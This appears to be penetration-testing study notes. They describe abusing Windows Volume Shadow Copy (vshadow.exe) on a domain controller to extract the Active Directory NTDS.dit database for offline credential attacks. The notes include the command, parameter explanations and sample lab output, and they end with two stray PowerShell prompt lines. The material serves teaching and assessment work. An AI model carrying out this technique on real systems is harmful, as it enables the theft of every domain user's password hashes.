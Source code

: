 Shadow Copies (Volume Shadow Service - VSS) provide a Microsoft backup technology for creating snapshots of files or entire volumes. Domain administrators can abuse VSS to extract the Active Directory database (NTDS.dit) for offline credential extraction.

### Shadow Copy Technology Overview

**Volume Shadow Service (VSS):**
- **Backup Technology:** Microsoft's snapshot-based backup solution
- **File-Level Snapshots:** Individual file or entire volume snapshots
- **Point-in-Time Recovery:** Restore files to previous states
- **Administrative Tool:** vshadow.exe from Windows SDK

**NTDS.dit Database:**
- **Active Directory Database:** Contains all domain user credentials
- **Hash Storage:** NTLM hashes and Kerberos keys for all accounts
- **Offline Analysis:** Extracted database enables offline credential attacks
- **SYSTEM Hive Requirement:** Registry hive needed for proper decryption

### Shadow Copy Creation Process

**vshadow.exe Execution:**
```cmd
# Create shadow copy with optimized settings
C:\Tools>vshadow.exe -nw -p C:
```

**Command Parameters:**
- **-nw:** Disable writers (speeds up backup creation)
- **-p:** Store copy on disk (persistent shadow copy)
- **C:** Target volume for shadow copy creation

**Shadow Copy Creation Output:**
```
VSHADOW.EXE 3.0 - Volume Shadow Copy sample client.
Copyright (C) 2005 Microsoft Corporation. All rights reserved.

(Option: No-writers option detected)
(Option: Create shadow copy set)
- Setting the VSS context to: 0x00000010
Creating shadow set {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...
- Adding volume \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\] to the shadow set...
Creating the shadow (DoSnapshotSet) ...
(Waiting for the asynchronous operation to finish...)
Shadow copy set succesfully created.

List of created shadow copies:

* SNAPSHOT ID = {c37217ab-e1c4-4245-9dfe-c81078180ae5} ...
   - Shadow copy Set: {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5}
   - Original count of shadow copies = 1
   - Original Volume name: \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\]
   - Creation Time: 9/19/2022 4:31:51 AM
   - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
   - Originating machine: DC1.corp.com
   - Service machine: DC1.corp.com
   - Not Exposed
   - Provider id: {b5946137-7b9f-4925-af80-51abd60b20d5}
   - Attributes:  Auto_Release No_Writers Differential

Snapshot creation done.
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname